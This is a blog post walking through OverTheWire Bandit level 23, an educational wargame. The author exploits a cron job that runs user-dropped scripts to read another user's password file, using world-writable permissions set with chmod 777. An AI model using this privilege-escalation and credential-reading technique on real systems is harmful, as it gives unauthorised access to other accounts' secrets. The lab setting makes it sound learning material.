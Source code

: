 +++
title = 'Bandit 23'
date = 2024-07-04T06:51:56-05:00
+++

# Introduction

This post is part of a series walking through OverTheWire Bandit. You many want to start at the [beginning of the series]({{<ref "bandit-start">}}). The posts are my unedited, informal thought process while solving levels.

# Task

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# Theory

- Vim
- [Linux File permissions](https://www.cbtnuggets.com/blog/technology/system-admin/deciphering-linux-file-directories-and-permissions-a-guide)
- [chmod](https://www.cbtnuggets.com/blog/technology/system-admin/when-to-use-chmod-vs-chown)

# Solution

Alright, our normal start

```bash
cd ../../
cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

So let's figure out what the script does

```bash
bandit23@bandit:/$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Okay even if you don't understand any of the code, you can see from the echo statement that it says it's executing and deleting all scripts in a location. Let's try to navigate there.

So there was no bandit23 location in that directory, but I did find a bandit24 directory `/var/spool/bandit24`

Let's try adding a script and see what happens. We will use `vim` to write the script. Just know when you are done writing you can click `esc`, then `:`, which tells vim you are issuing a command as opposed to typing. Then type `wq` for write and quit.

We will mimick our script like the one from the last level since we essentially want the same thing, but we can do away with all the variables and create our own tmp directory first using `mktemp -d` adn write into that directory so our file doesn't get deleted.

```bash
mktemp -d
cd cd /tmp/tmp.z7yOZ49ykk
vim b24pass.sh
```

Now, in vim, type:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.z7yOZ49ykk/pass
```

Then click `esc`, then type `:wq`
Now we just wait 1 minute for our script to be executed by the cron job and run the comannd from last level to figure out the location.

Now we need to copy the file to the cron job directory we found, however if we only copy then nothing happens because we also need to set the correct file permissions. If you're not familiar with linux file permissions and chmod, read the articles linked in the theory section.

```bash
chmod 777 b24pass.sh
chmod 777 /tmp/tmp.z7yOZ49ykk
cp -f b24pass.sh /var/spool/bandit24/foo/b24pass.sh
```

Now wait a minute for the cron job to execute then run this to get the password.

```bash
ls
cat pass
```
